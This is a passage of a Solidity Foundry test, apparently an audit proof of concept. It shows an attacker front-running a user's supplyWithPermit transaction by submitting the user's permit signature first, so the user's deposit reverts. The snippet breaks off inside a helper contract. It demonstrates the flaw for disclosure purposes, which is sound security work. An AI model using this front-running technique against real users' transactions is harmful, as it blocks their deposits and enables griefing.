 ```solidity
        IAToken aToken = IAToken(aToken_addr);

        (address user, uint256 userPrivateKey) = makeAddrAndKey("USER");
        uint256 amount = 10 ether;

        address attacker = makeAddr("ATTACKER");
        
        console.log("USER want to supply asset with permit on behalf of some user and prepares signature off-chain and submit `supplyWithPermit()` tx");
        SigUtils sigUtils = new SigUtils(aToken.DOMAIN_SEPARATOR());
        SigUtils.Permit memory permit = SigUtils.Permit({
            owner: user,
            spender: address(pool),
            value: amount,
            nonce: 0,
            deadline: block.timestamp
        });
        bytes32 digest = sigUtils.getTypedDataHash(permit);
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(userPrivateKey, digest);

        console.log("While `supplyWithPermit()` tx is in mempool, Attacker frontrun user's supplyWithPermit tx");
        vm.startPrank(attacker);
        aToken.permit(
            permit.owner, 
            permit.spender, 
            permit.value, 
            permit.deadline,
            v,
            r, 
            s
        );
        console.log("Frontrun completed");
        vm.stopPrank();

        vm.startPrank(user);
        console.log("USER's `supplyWithPermit()` tx now get executed but gets reverted as signature is already used");
        vm.expectRevert(); //ERC20Permit: invalid signature
        pool.supplyWithPermit(
            aToken_addr, 
            permit.value, 
            user, 
            0, 
            permit.deadline, 
            v, 
            r, 
            s
        );
        vm.stopPrank();
    }
}

contract SigUtils {
    bytes32 internal DOMAIN_SEPARATOR;

    constructor(bytes32 _DOMAIN_SEPARATOR) {
        DOMAIN_SEPARATOR = _DOMAIN_SEPARATOR;
    }

    // keccak256("Permit(address owner,address spender,uint256 value,uint256 nonce,uint256 deadline)");
    bytes32 public constant PERMIT_TYPEHASH =
```